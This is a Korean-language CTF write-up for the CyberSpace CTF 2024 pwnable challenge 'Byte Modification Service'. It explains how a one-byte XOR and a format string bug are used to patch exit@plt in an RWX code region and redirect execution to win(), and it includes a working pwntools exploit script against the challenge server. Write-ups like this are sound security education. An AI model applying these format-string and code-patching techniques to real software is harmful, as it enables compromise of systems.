 # [CyberSpace CTF 2024 / pwnable] Byte Modification Service

> Welcome to my Byte Modification Service, please modify the byte and leave your comments.
>
> [Attachment](./attachment)

## Analysis

![image](https://github.com/user-attachments/assets/af2cd404-b43c-458a-915d-dcbdbd838f00)

스택의 임의의 위치에 저장된 값을 `value`로 가져와서 \[1\], `value`에서 1바이트를 임의의 값과 xor 하여 조작할 수 있다 \[2\]. 이렇게 조작된 값과 format string bug를 이용하여 \[3\] `win()`을 호출하면 플래그를 획득할 수 있다.

## Exploitation

### First failed attempt - GOT overwrite

![image](https://github.com/user-attachments/assets/0cbd3ae6-c28d-44c8-bee2-4e23b47ba3b4)

FSB 이후에 `bye()`에서 `puts()`와 `exit()`을 차례로 호출한다. 이 두 함수 중 하나의 GOT를 `win()`으로 덮어쓰면 될 것 같지만, `puts()`는 `win()` 내부에서 플래그를 출력할 때 사용되기 때문에 덮으면 안 되고, `exit()`은 GOT 주소와 1바이트만 차이가 있는 값이 스택에 존재하지 않는다. Format string에 `exit()`의 GOT 주소를 포함시키는 방법은 주소에 `scanf()`의 terminator로 설정된 `'@'`(`0x40`)이 포함되기 때문에 불가능하다.

### Second failed attempt - Jump to win()

`main()`에서 `vuln()` 이전에 호출되는 `init()`을 보면,

![image](https://github.com/user-attachments/assets/b67774da-9a8a-4259-9120-1815fec23091)

`mprotect()` system call을 사용하여 코드 영역의 permission을 7(RWX)로 설정한다.

![image](https://github.com/user-attachments/assets/ea4de860-c6b6-42f7-b711-5fcb1b963928)

따라서 Runtime에 FSB를 이용하여 코드를 패치할 수 있다.

![image](https://github.com/user-attachments/assets/b50809f4-6a92-456b-ad33-59e327977725)

![image](https://github.com/user-attachments/assets/7877a51e-6edc-48bf-b03b-483461641e80)

스택에 있는 `_start()`의 주소를 가져와서 사용하면 `0x401100`부터 `0x4011ff` 사이의 주소에 write가 가능하다.

![image](https://github.com/user-attachments/assets/31239d6f-742f-4c83-a075-b5728d971edf)

이 영역에는 `exit()`의 PLT가 있기 때문에, 이 부분을 패치하여 `exit()`이 호출될 때 대신 임의의 코드가 실행되도록 할 수 있다.

Operand가 constant인 `jmp`의 경우,

![image](https://github.com/user-attachments/assets/d48d7696-7edf-4c4d-8713-efda67da6094)

`f2 e9` 뒤의 4바이트 값을 다음에 실행될 instruction의 주소에 더하면 destination이 된다.

`exit@plt`의 경우,

![image](https://github.com/user-attachments/assets/20b86388-4429-4b1f-9393-451412813f6d)

`0x401125`부터 4바이트를 `0x190e9`로 덮어쓰면 `win()`으로 점프하는 코드가 된다.

```python
from pwn import *

context(log_level="debug")

REMOTE = True

if REMOTE:
    r = remote("byte-modification-service.challs.csc.tf", 1337)
    pos = 0x2B
else:
    r = process("./attachment/chall")
    pos = 0x2D

sla = r.sendlineafter
sa = r.sendafter

idx = 0
xor_with = 0x401155 ^ 0x401125
payload = f"%{0x190e9 - 1}c%9$n".encode()

sla(b"which stack position do you want to use?\n", str(pos).encode())
sla(b"Byte Index?\n", str(idx).encode())
sla(b"xor with?\n", str(xor_with).encode())
sa(b"finally, do you have any feedback? it will surely help us improve our service.\n", payload.ljust(20, b"A"))
r.recvuntil(b"A")

r.interactive()
```

그런데 local에서는 플래그가 출력되지만,

![image](https://github.com/user-attachments/assets/e7607407-9c43-4cac-ad0c-96fb26a0a431)

Remote에서는 플래그가 출력되지 않아서 디버깅 로그를 출력해 보니,

![image](https://github.com/user-attachments/assets/0d9f9e7f-99e8-41b4-914c-be9d6b60960d)

`0xc000`바이트를 출력한 후에 연결이 끊겨버리는 것을 확인할 수 있었다.

### Third attempt - Just return exit@plt

![image](https://github.com/user-attachments/assets/538ecca9-422c-4b64-b0c8-aee6ef0b4288)

`bye()`의 마지막 instruction은 `exit@plt`를 호출하는 코드이기 때문에, `exit@plt`의 return address는 `bye()`의 바로 뒤쪽에 있는 `win()`의 주소가 된다. 정상적인 상황에서는 `exit()` 내부에서 프로세스가 종료되지만, `exit@plt`를 패치해서 `exit()`을 호출하지 않고 return하게 만들면 `win()`이 실행되어 플래그를 획득할 수 있다.

[ex.py](./ex.py)

![image](https://github.com/user-attachments/assets/2a52ac02-a0f1-4d41-af70-b16fc2912038)
